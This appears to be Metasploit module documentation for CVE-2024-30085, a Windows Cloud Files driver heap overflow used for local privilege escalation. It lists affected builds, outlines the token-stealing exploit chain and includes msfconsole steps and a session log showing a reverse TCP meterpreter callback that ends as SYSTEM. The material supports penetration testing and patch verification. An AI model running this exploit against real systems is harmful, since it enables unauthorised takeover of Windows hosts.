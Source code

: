 ## Vulnerable Application
As of the writing of this documentaiton, NIST claims on https://nvd.nist.gov/vuln/detail/cve-2024-30085 that the
following versions of Windows are vulnerable:
```
cpe:2.3:o:microsoft:windows_10_1809:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.17763.5936

cpe:2.3:o:microsoft:windows_10_21h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.19044.4529

cpe:2.3:o:microsoft:windows_10_22h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.19045.4529

cpe:2.3:o:microsoft:windows_11_21h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.22000.3019

cpe:2.3:o:microsoft:windows_11_22h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.22621.3737

cpe:2.3:o:microsoft:windows_11_23h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.22631.3737

cpe:2.3:o:microsoft:windows_server_2019:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.17763.5936

cpe:2.3:o:microsoft:windows_server_2022:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.20348.2522

cpe:2.3:o:microsoft:windows_server_2022_23h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.25398.950
```

In practice, this exploit did not work on Windows 10_1809, but does appear to work on Windows 10_2004, 10_20H2, and
10_21H1 as well as the remaining vulnerable versions listed by NIST.

CVE-2024-30085 is a Windows Kernel Elevation of Privilege Vulnerability which affects many recent versions of Windows 10,
Windows 11 and Windows Server 2022.

The vulnerability is a heap overflow in the Cloud Files Mini Filter Driver, a driver that facilitates
management and synchronization of files between a local host and a remote server.  Under certain specific
circumstances, the application will not perform a check of the size when updating a file in local memory,
allowing a heap overflow.
By overflowing and corrupting _WNF_STATE_DATA objects, we can leak the location of the ALPC handle table and again
to leak a PipeAttribute object.  The PipeAttribute object then allows us to leak the location of the system process
token and overwrite own on token with it.
If this exploit fails, it will not work again until the target reboots.

### Setup

Windows 10 2004 to Windows 11 23H2 and Server 2022 through server 23H2 are vulnerable.
This exploit module has been tested on Windows 10 2004 through Windows 11 23H2 10.0.22631.2428 and Server 2022 
10.0.20348.169

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `windows/local/cve_2024_30085_cloud_files`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 11 (10.0 Build 22631.2428)
```
msf6 exploit(windows/local/cve_2024_30085_cloud_files) > show options

Module options (exploit/windows/local/cve_2024_30085_cloud_files):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          3                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT     4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/cve_2024_30085_cloud_files) > set session 5
session => 5
msf6 exploit(windows/local/cve_2024_30085_cloud_files) > run
[*] Started reverse TCP handler on 10.5.135.201:4545 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] OS version: Windows 11 version 23H2
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 4152
[*] Reflectively injecting the DLL into 4152...
[*] Sending stage (203846 bytes) to 10.5.132.111
[*] Meterpreter session 6 opened (10.5.135.201:4545 -> 10.5.132.111:49800) at 2025-03-06 16:19:44 -0600

meterpreter > sysinfo
Computer        : WIN11_23H2_8EA9
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
